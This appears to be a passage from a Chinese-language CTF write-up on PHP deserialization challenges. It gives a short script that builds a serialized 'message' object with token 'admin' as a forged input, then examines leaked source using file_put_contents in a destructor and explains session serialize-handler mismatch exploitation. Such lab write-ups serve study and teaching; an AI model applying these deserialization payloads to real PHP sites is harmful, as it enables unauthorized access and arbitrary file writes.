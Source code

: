 传值反序列化，token=admin即可

```php
<?php

class message{
    public $token='admin';
}


$a = new message();
echo urlencode(base64_encode(serialize($a)));
```

![](https://i.loli.net/2021/10/17/PAUZmDIzLvC52Q3.png)



## 263 session伪造

www.zip源码泄漏

seay扫一下或者自己审都行

inc.php

```php
<?php
ini_set('session.serialize_handler', 'php');
# ...
class User{
    public $username;
    public $password;
    public $status;
    function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function setStatus($s){
        $this->status=$s;
    }
    function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
}
# ...
```

看到inc.php存在file_put_contents函数，
且设置session序列化引擎为php`ini_set('session.serialize_handler', 'php');`，
而其他页面则没有配置，猜测该页面的`session.serialize_handler`与默认配置`php.ini`中的不同

> 利用点是：session.serialize_handler不同引起的反序列化
>
> [带你走进PHP session反序列化漏洞 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6640)
> [深入浅析PHP的session反序列化漏洞问题_php实例_脚本之家 (jb51.net)](https://www.jb51.net/article/116246.htm)
